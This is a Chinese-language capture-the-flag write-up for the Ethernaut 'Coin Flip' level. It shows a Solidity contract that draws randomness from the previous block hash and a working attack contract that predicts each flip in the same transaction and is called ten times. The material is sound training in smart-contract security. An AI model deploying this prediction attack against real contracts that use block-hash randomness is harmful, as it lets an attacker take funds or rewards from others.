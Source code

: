 # Coin Flip
关于依赖于block hash的合约行为。
```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### 代码分析
1. 合约肯定不是通过人力来猜出结果，而是需要通过相同的逻辑来完成猜测
2. 编写攻击合约实现与该合约相同的逻辑，并在攻击合约中调用该合约的flip方法，
因为，整个流程为一条交易，所以他们获取的blockhash值肯定是一致的，即攻击合约
一定能够猜中。

### 攻击合约
[官方答案](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/attacks/CoinFlipAttack.sol)   
不导入CoinFlip合约
```solidity
pragma solidity ^0.4.18;


contract CoinFlipAttack {
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack(address _victim) public returns (bool) {
    address coinflip = _victim;
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coinflip.call(bytes4(keccak256("flip(bool)")), side);
    return side;
  }
}
```
*bytes4(keccak256("flip(bool)"))*为合约调用方法的methodID

### 攻击方法
1. 部署攻击合约
2. 调用攻击合约attack(address)方法；（调用10次）